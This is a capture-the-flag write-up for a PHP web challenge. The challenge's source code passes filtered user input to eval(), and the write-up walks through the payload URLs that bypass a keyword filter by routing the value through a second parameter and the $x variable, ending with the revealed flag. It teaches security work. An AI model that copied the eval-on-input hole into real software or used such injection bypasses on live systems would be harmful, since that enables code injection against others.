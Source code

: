 # Challenge description

Dali likes PhP because it's weird and has a lot of bugs. Is that really true ?
Link: http://20.119.58.135:1234

**Author: Kahla**

-----------------------------------------------------------

we were provided this php source code

```php

<?php
//Show Page code source
highlight_file(__FILE__);
require "secret.php";
if(isset($_GET["__"])&&isset($_GET["_"])){
$x=$_GET["__"];
$inp=preg_replace("/[^A-Za-z0-9$]/","",$_GET["_"]);
if($inp==="Kahla"){
    die("Hacking Attempt detected");
}
else{
    if(eval("return $inp=".$inp.";")==="Kahla"){
        echo $flag;
    }
    else{
        die("Pretty Close maybe ?");
    }
}
}
?>

```

trying to send **"Kahla"** in the **_** param prints out this prompt

Payload : ``` http://20.119.58.135:1234/?__=&_=Kahla ``` 

Output : 

![a](https://user-images.githubusercontent.com/58823465/151814781-7f079c2b-0cf4-42eb-8a71-250713e79fca.png)


We notice that we have the other `__` param too that we haven't tried to use yet 
and it seems sorta useless but its there soo we might as well just use it right?

So we know that the code is filtering the word **Kahla** and won't allow us to get the flag with it 

So how about we use the `__` to send it to the `_` param? since it's not verifying that param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$_GET[__] ```

Output : ![6](https://user-images.githubusercontent.com/58823465/151814811-b5b61141-c69c-47ba-a3dd-73827772fffc.png)


well i guess we're pretty close :/ ?
We can't use the **GET** to send the param because the regex won't allow the [] characters 
But notice that we have a `$x` variable in the source code that takes the `__` value !!

All we need to do is just to pass that through the `_` param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$x ```

Output : ``` Securinets{PeehPee_1s_AlWAYs_H3r3} ```

And there's our flag!





